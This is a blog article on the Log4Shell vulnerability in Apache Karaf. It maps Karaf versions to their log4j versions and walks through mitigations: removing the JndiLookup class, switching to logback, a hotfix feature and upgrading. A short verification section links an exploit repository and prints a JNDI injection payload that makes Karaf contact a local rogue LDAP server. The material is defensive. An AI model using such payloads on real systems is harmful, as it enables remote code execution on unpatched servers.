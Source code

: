 ```yaml
---
title: "Log4j Vulnerabilities and Apache Karaf (CVE-2021–44228)"
date: 2022-01-12T00:00:00Z
description: "In this article, we are going to take a look at the impact of the recent log4j Zero-Day on Apache Karaf based apps. The situation is evolving, I recommend this page to stay up-to-date."
tags: ["Security", "Development"]
---
```


In this article, we are going to take a look at the impact of the recent log4j Zero-Day on Apache Karaf based apps. The situation is evolving, I recommend [this page](https://logging.apache.org/log4j/2.x/security.html) to stay up-to-date.

## What Log4j Version am I using?

Apache Karaf uses Log4j indirectly through [PAX Logging](https://github.com/ops4j/org.ops4j.pax.logging).

| Karaf Version | PAX Logging Version | log4j2 version |
| ------------- | --------------------|-----------------|
| 3.0.10        | 1.8.4               | not in use *    |
| 4.0.10        | 1.10.0              | not in use *    |
| 4.1.6         | 1.10.1              | 2.8.2           |
| 4.2.12        | 1.11.9              | 2.14.0          |
| 4.3.3         | 2.0.10              | 2.14.0          |

*includes a log4j2 jar, but not in use in karaf default logger

As we can see, all Karaf 4 versions are affected.

## How can I verify if my karaf based distribution is vulnerable?

The easiest way I found to reproduce the attack is based on the following repository: [https://github.com/ilsubyeega/log4j2-exploits](https://github.com/ilsubyeega/log4j2-exploits)

As indicated in the readme, we can startup manipulated LDAP server through the following two commands:

```bash
$ cd http-server && node index.js
$ cd ldap-server && node index.js
```

Next we startup Karaf (using OpenJDK < 8u121), set the Logger to debug, and send the JNDI Payload to the shell.

```bash
karaf@root()> log:set debug
karaf@root()> shell:exec '${jndi:ldap://127.0.0.1:3001/}'
```

## Mitigation Option 1: Remove JNDI Lookup

One option to get rid of the vulnerability is to remove the Log4j JNDI Lookup class from the classpath, this can be achieved by executing the following commands:

```bash
$ cd karaf-directory
$ zip -q -d $(find . | grep pax-logging-log4j2 | grep jar) org/apache/logging/log4j/core/lookup/JndiLookup.class
$ zip -q -d $(grep -rlnw . -e "pax-logging-log4j2" | grep "data/cache/bundle" | grep jar) org/apache/logging/log4j/core/lookup/JndiLookup.class
```

Those commands were tested with Karaf 4.1, 4.2 and 4.3

## Mitigation Option 2: Switch to Logback

Karaf comes with logback support. This option will break some log-related functionality (for instance `log:display` stopped working). Depending on your use case it may be worth a try. Switching to logback can be done by executing the following commands on the karaf shell:

```bash
karaf@root()> shell:exec curl -o etc/logback.xml https://raw.githubusercontent.com/pedestal/samples/master/auto-reload-server/config/logback.xml
karaf@root()> shell:exec echo "org.ops4j.pax.logging.StaticLogbackContext=true" >> etc/system.properties
karaf@root()> shell:exec echo "org.ops4j.pax.logging.StaticLogbackFile=etc/logback.xml" >> etc/system.properties
karaf@root()> feature:install framework-logback
karaf@root()> feature:uninstall framework
# Restart Karaf
```

This will completely remove log4j2 from your classpath. You likely want to customize the logback.xml file in the etc folder.

## Mitigation Option 3: Create a hotfix-feature

Another option is to create a custom hotfix feature (based on the published [framework feature XML](https://repo1.maven.org/maven2/org/apache/karaf/features/framework/4.3.3/framework-4.3.3-features.xml)). You replace the vulnerable PAX Logging Version with a secure one (1.11.12 for Karaf 4.1.x / 4.2.x and 2.11.13 for Karaf 4.3.x). This is only an option if you have your own Artifact Management System (like Nexus or Artifactory)

## Honorable Mentions / Weak Workarounds:

You *can* try the following options:

- Adding `log4j2.formatMsgNoLookups` in your karaf's **system.properties** for Karaf 4.2/4.3
- Replace `%m` with `%m{nolookups}` in (for karaf 4.1) your **org.ops4j.pax.logging.cfg**.

However, I don't recommend them, as there were reports of bypasses of those mitigations.

## Upgrading Karaf

A clean solution is — of course — to upgrade your karaf container to a version that uses a safe log4j version out-of-the-box. Karaf Version 4.2.14 and 4.3.5 are [available](https://karaf.apache.org/news.html).
